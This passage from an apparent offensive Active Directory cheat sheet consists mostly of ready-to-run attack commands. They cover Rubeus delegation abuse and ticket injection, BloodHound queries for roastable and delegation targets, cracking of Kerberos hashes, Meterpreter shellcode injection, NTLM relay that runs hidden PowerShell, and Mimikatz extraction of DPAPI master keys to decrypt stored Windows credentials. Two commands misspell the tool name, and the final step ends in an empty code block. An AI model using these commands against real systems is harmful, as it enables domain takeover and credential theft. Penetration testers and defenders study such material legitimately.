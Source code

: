 ```powershell

# --- Constrained Delegation
Rebeus.exe s4u /user:svc_mysql /impersonateuser:domainadmin /aes256:38afdfead831df... /msdsspn:ldap/PRIMARY.testlab.local /opsec /ptt

# get information about TGT
Rebeus.exe describe /ticket:<path/to/tgt.kirbi>

# --- ADCS TGT Request
Rubeus.exe asktgt /user:jwick /certificate:C:\Temp\cert.pfx /password:<CERT_PASSWORD>
```
### BloodHound Queries
```
# Find all user's with SPNs
MATCH (n:User) WHERE n.hasspn=true RETURN n
# Find all ASREP roastable users
MATCH (u:User {dontreqpreauth:true}) RETURN u
# Find all computers with unconstrained delegation
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
# Find old OSs
MATCH (H:Computer) WHERE H.operatingsystem =~ '.*(2000|2003|2008|xp|vista|7|me)*.' RETURN H
```
### Roasted Hash Cracking
```bash
# TGS
john --format=krb5tgs --wordlist=wordlist.txt hash.txt
hashcat -a 0 -m 13100 hash.txt wordlist.txt
# ASREP
john --format=krb5asrep --wordlist=wordlist.txt hash.txt
hashcat -a 0 -m 18200 hash.txt wordlist.txt
```
### Meterpreter Shellcode Injection
```
use post/windows/manage/shellcode_inject
set session 1
set shellcode /tmp/payload.bin
run
```
### Ntlmrelayx
```
ntlmrelayx.py -t smb://10.10.10.101 -smb2support --no-http-server --no-wcf-server
ntlmrelayx.py -t smb://10.10.10.101 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden...'
```
### Decrypting DPAPI Window Credential Blobs
1. Credential manager blobs are usually stored at `C:\Users\<user>\AppData\Local\Microsoft\Credentials`
2. Use Mimikatz to get the master key GUID of the blob:
```
dpapi::cred /in:C:\Users\<user>\AppData\Local\Microsoft\Credentials\<base32-blob-id>
```
3. Obtain the path to the master key by listing the contents of the following directory:
```
C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<user-sid>
```
4. Use Mimikatz to obtain the actual master key:
```
dpapi::masterkey /in:C:\Users\<user>\AppData\Roaming\Microsoft\Protect\<user-sid>\<master-key-guid> /rpc
```
5. Use Mimikatz to decrypt the credential blob:
```
```